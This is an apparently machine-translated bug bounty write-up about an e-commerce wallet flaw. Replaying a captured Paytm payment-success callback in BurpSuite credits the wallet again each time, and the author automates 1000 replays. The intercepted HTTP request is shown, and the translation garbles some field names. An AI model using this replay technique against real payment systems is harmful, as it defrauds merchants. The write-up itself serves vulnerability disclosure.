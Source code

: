 # 如何添加无限量(现金)到电子商务应用程序的钱包只是从 1 印度卢比只。

> 原文：<https://infosecwriteups.com/how-to-add-infinity-amount-cash-to-e-commerce-applications-wallet-just-from-1-inr-only-6f33d6fb5e2d?source=collection_archive---------0----------------------->

![](img/df9ced5b1133dc60bcc9ddd7b0499d39.png)

嗨，信息安全的伙计们！！！！希望你一切都好。如果你在这里，那么你有兴趣了解更多。这一发现对于一些 1337 infosec 的人来说并不是唯一的，但是大多数人并没有测试这种情况。

我测试了一个电子商务应用程序，使用了我的电子商务应用程序专用的清单。我在应用程序上发现了许多漏洞，如动态口令响应、价格操纵、数量操纵等。

在这里，我将谈论增加钱包中的金额，以及我是如何滥用它来获得数千美元的赏金的错误。我将使用[www.redacted.com](http://www.redacted.com)作为目标主机。

![](img/1a17b0915ff2b397cb75eb4485f7c481.png)

我创建了一个帐户，并转到钱包部分。我开始时没有印度卢比。

![](img/4457c50cf3d460a958eafa4bf498d1aa.png)

然后有一个选项，用一些支付网关添加钱包中的金额。我在输入框中添加了 1，选择了 PayTM gateway 并点击了 add to wallet。

![](img/c21b78e6adb6880d24752edd3cabe98a.png)

然后，有一个支付网关页面，你可以选择以下任何一个选项。我选择了 paytm 选项，添加了我的 paytm 号码并验证了它。

![](img/872e84b542cb5467c917f7016a77a027.png)

现在，我用浏览器配置了 BurpSuite，并截取了请求。

现在，我点击了付费。1 并检查 BurpSuite 中的每一个请求。我转发了所有与 paytm gateway 相关的请求。然后我在 BurpSuite 收到一个可疑的请求。

请求:

> POST/pg response . PHP HTTP/1.1【www.redacted.com】主机:T2
> 用户代理:Mozilla/5.0(Macintosh；英特尔 Mac OS X 10.15；RV:78.0)Gecko/2010 01 01 Firefox/78.0
> 接受:text/html，application/xhtml+xml，application/XML；q=0.9，image/webp，*/*；q=0.8
> 接受-语言:en-US，en；q=0.5
> Accept-Encoding: gzip，deflate
> Content-Type:application/x-www-form-urlencoded
> Content-Length:404
> Origin:https://securegw . pay TM . in
> Connection:close
> Referer:https://securegw.paytm.in/theia/processTransaction
> Cookie:PHPSESSID = xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx；t * * * connection time = 0；_ _ T * * * uuid = xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
> 升级-不安全-请求:1
> 
> CURRENCY = INR & gateway name = WALLET & resp msg = Txn+Success & bank name = WALLET & payment mode = PPI & MID = xxxxxx79987247 XXXXXX & resp code = 01 & tx NID = 202007 xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx & Txn amount = 1.00 & ORDERID = orders 157 xxxxxxxx & STATUS = TXN _ Success & bank TXNID = 1410 xxxxxxxx & Txn date = 2020–01–11+22

回应:

> HTTP/1.1 200 OK
> 日期:2020 年 1 月 11 日星期六 17:09:32 GMT
> 服务器:Apache/2.4.18 (Ubuntu)
> 过期时间:0
> Cache-Control:no-Cache
> Pragma:no-Cache
> Vary:Accept-Encoding
> Content-Length:116
> Connection:close
> Content-Type:text/html；字符集=UTF-8
> 
> **等待…**
> **交易状态为成功**

我把上面的请求发送到 REPEATER Tab 并拦截了。

我检查了钱包，并成功地添加了金额(1 印度卢比)。

![](img/4e7fb700b6d7fd96bd16a537cc2ff37e.png)

因此，场景是支付网关向客户端发送一个关于成功完成支付的响应，然后从客户端向目标服务器生成一个添加钱包金额的请求(在请求之上)。

现在，我将 TXAMOUNT 的值从 1.00 更改为 10000.00 并发送它，但没有成功。

然后，我发送原来的请求(上面的请求),进入浏览器并刷新页面。

嘣！！！！！1 印度卢比已成功添加到钱包中。所以现在，钱包的总数是 2 印度卢比。(我将原始请求发送给入侵者，并发送了 1000 个有效负载为空的请求，1000INR 被添加到我的钱包中。)

![](img/962170658ce597c2c376afcfc0bf13d5.png)

# #注意:

1.  检查每一个请求。
2.  如果上面的测试用例不适合你，那么就有必要检查一下附加货币端点上的竞争条件问题——使用 Turbo Intruder 或使用编码技巧来实现它。

如果你喜欢它，请鼓掌并与其他 infosec 成员分享。

你可以在[推特](https://www.twitter.com/sengarharshit1)、 [Linkedin](https://www.linkedin.com/in/sengarharshit1) 上关注我

谢谢！！！！

希望你喜欢它和我以前的博客。